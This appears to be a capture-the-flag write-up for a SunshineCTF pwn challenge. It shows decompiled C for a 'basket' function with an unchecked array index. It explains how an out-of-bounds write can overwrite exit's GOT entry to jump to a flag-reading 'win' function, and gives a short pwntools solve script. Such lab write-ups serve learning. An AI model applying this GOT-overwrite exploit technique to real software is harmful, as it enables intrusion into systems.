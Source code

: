 In main, it read the address of `printf` and `scanf`, then it print the logo. And then there is a infinite loop and do `basket` function

:::spoiler basket
```clike
void basket(void)

{
  long in_FS_OFFSET;
  int local_34;
  undefined *local_30;
  undefined *local_28;
  long local_20;
  undefined8 local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("\nWhich fruit would you like to eat [0-3] >>> ");
  __isoc99_scanf("%i",&local_34);
  printf("Replace it with a new fruit.\n",(&fruits)[local_34]);
  printf("Type of new fruit >>>");
  __isoc99_scanf("%24s",&fruits + local_34);
  local_30 = &DAT_00404020;
  local_28 = &DAT_00404038;
  local_20 = _DAT_00404020;
  local_18 = _DAT_00404038;
  if ((printf_sym == _DAT_00404020) && (printf_sym == _DAT_00404020)) {
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```
:::

In the basket function, it ask us the fruit we want to replace. Then it ask us it will replace to what. At the end, it do an exit

Also, the binary has a `win` function which will read the content of `flag.txt`

After reading the source code, it can found a vulnerability in `basket` function. When it ask which fruit we want to replace, it forget to check the bound of the input. So we can do a OOB write and maybe write to the GOT of the `exit` function

Here is the exploit

:::spoiler solve.py
```python
from pwn import *
binary = "./sunshine"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chal.2023.sunshinectf.games", 23003)
#conn = process(binary)
# conn = gdb.debug(binary)

conn.sendlineafter(b"[0-3] >>> ", str(0x100000000-0x8).encode()) # exit.got.plt
conn.sendlineafter(b"fruit >>>", p64(0x40128f)) # win

conn.interactive()
```